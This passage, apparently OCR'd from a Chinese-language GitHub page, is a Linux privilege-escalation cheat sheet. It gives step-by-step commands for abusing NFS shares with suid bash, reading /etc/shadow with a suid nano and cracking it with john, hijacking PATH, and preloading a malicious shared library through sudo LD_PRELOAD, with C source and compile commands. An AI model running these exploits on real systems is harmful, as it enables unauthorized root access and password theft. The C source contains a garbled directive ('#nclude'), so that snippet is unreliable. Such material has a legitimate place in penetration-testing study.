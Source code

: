 ```
nmap --script=nfs-showmount ip
```
#### 提权利用
条件：共享服务器配置允许共享目录读写，且能以root权限访问该目录
1、将目标主机的目录挂载到本机目录
```mount -t nfs ip:/home ./```
2、将本机/bin/bash复制到挂载目录
```cp /bin/bash ./```
3、为bash添加suid权限
```chmod u+s ./bash```
4、取消挂载
```umount ./```
5、运行目标服务器共享目录的bash
```./bash -p```
#### 其它利用方式
上传带有suid权限的nano
使用nano读取/etc/shadow文件中的密码，破解root用户 然后登录
``` nano -p /etc/shadow```
使用john破解
```john passwd```
也可使用nano编辑/etc/passwd和/etc/sudoers文件，将用户权限改为root权限
### path变量提权
#### 概述
PATH变量是一个环境变量用于指定可执行文件的目录，运行命令时，系统就会根据PATH来查找相关的可执行文件
```
env|grep "^PATH"
```
1、发现有suid权限文件，无法直接利用
2、该文件调用了某个命令
3、在某个路径下创建该命令同名的恶意文件(直接创建，cp,ln -s) 
4、将该路径添加到环境变量中。suid文件执行时就会调用该恶意文件从而提权(一般该文件写#! /bin/bash)
### ld_preload提权
#### 基础知识
LD_PRELOAD,环境变量，预加载动态库，加载so文件，用于动态库的加载优先级最高。默认配置文件为/etc/ld.so.preload
一般情况下加载顺序为，LD_PRELOAD>LD_    LIBRARY_PATH>/etc/ld.so.cache>lib>usr>lib。
。。。。
#### 条件
sudoers文件中有
```
defaults env_keep+=LD_PRELOAD
```
默认更换用户时会保留该环境变量
#### 利用
使用具有suid或者sudo权限的命令，利用该环境变量加载恶意动态库（so文件），执行恶意代码，从而提权
1、编写恶意文件shell.c
```
#include<stdio.h>
#nclude<sys/types.h>
#include<stdlib.h>

void _init(){
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2、编译
```
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
3、使用带有root权限的命令调用该库
```
sudo LD_PRELOAD=/etc/shell.so find //设置LD_PRELOAD的环境变量值，在执行find命令全前进行动态加载共享库
```
### cron提权
```